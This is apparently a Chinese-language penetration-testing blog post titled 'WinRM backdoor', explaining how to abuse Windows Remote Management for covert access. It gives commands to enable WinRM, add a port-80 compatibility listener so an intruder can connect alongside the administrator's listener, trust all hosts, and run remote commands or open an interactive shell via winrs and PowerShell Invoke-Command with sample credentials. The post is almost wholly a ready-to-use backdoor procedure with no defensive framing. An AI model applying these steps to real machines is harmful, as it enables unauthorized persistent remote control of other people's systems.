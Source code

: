 ```yaml
---
layout:     post
title:      WinRM后门
subtitle:   WinRm进行Shell管理
date:       2020-10-01
author:     BugMan
header-img: img/post-bg-hacker.jpg
catalog: true
tags:
    - Shell
    - 渗透测试
    - 后门
---
```

# WinRM服务
    WinRM全称是Windows Remote Management，是微软服务器硬件管理功能的一部分，能够对本地或远程的服务器进行管理。WinRM服务能够让管理员远程登录Windows操作系统，获得一个类似Telnet的交互式命令行shell，而底层通讯协议使用的是HTTP。
# 开启WinRM服务
在Windows 2012以上的服务器操作系统中，WinRM服务默认启动并监听了5985端口，可以省略这一步。
对于Windows 2008来说，需要使用命令来启动WinRM服务，快速配置和启动的命令是

`winrm quickconfig -q`这条命令运行后会自动添加防火墙例外规则，放行5985端口。

    新增80端口Listener对于原本就开放了WinRM服务的机器来讲，需要保留原本的5985端口listener，同时需要新增一个80端口的listener，这样既能保证原来的5985端口管理员可以使用，我们也能通过80端口连接WinRM。
## 使用下面这条命令即可新增一个80端口的listener
`winrm set winrm/config/service @{EnableCompatibilityHttpListener="true"}`
对于安装Windows 2012及以上版本操作系统的服务器来讲，只需要这一条命令即可实现端口复用。
本地配置
本地需要连接WinRM服务时，首先也需要配置启动WinRM服务，然后需要设置信任连接的主机，执行以下两条命令即可。
`winrm quickconfig -q`
`winrm set winrm/config/Client @{TrustedHosts="*"}`
### Winrs远程执行命令

需要客户端启用Winrm，SYS权限受限制

#### 客户端启用Winrm

winrm quickconfig -q
winrm set winrm/config/Client @{TrustedHosts=”*”}

#### 远程执行CMD

通过Winrs连接，并执行whoami命令

```
winrs -r:http://192.168.1.20 -u:k8gege -p:k8gege520 whoami
```

通过Winrs连接，并获得交互式的shell

```
winrs -r:http://192.168.1.20 -u:k8gege -p:k8gege520 cmd
```

PowerShell远程执行命令
需要客户端启用Winrm，和系统自带命令一样,SYS权限受限制
```
$ip="192.168.1.116"
#$ip="192.168.1.20"
Set-Item WSMan:\localhost\Client\TrustedHosts -Value $ip -Force
$securePassword = ConvertTo-SecureString -AsPlainText -Force 'k8gege520' 
$cred = New-Object System.Management.Automation.PSCredential 'k8gege', $securePassword
$cmd = {ls C:\users\public}
Invoke-Command -ComputerName $ip -Credential $cred -ScriptBlock $cmd

```

